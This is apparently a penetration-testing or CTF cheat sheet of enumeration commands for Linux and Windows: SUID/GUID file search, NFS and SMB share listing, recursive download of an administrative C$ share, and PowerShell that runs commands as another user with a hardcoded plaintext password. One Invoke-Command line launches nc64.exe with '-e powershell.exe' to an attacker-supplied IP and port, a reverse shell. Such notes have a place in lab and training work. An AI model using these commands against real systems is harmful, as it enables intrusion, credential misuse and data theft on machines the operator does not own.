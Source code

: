 # Enumeration

## Linux

### SUID - GUID
```bash
find / -perm -u=s -o -perm -g=s -type f 2>/dev/null
```

### NFS

```bash
#show all mounted shares
mount
```

```bash
# Show mountable shares on 192.168.1.42
showmount -e 192.168.1.42
```

## Windows

### Groups
```powershell
whoami /all
```

### SMB
```bash
smbclient --no-pass -L //10.10.10.42/
smbclient //10.10.10.42/C$ -U hermes
```
- Recursively download directories
```powershell
mask ""
recurse on
prompt off
mget *
```

### Run commands as another user

```powershell
$username="hermes"
$password="asaboveasbelow"
$securePassword=ConvertTo-SecureString $password -AsPlainText -Force
$Credential=New-Object System.Management.Automation.PSCredential($username, $securePassword)
New-PSSession -Credential $Credential | Enter-PSSession

Invoke-Command -ComputerName proteus -Credential $credential -ScriptBlock {C:\hermes\nc64.exe <ip> <port> -e powershell.exe}
```

### Find a file

```powershell
dir flag.txt /s /p
```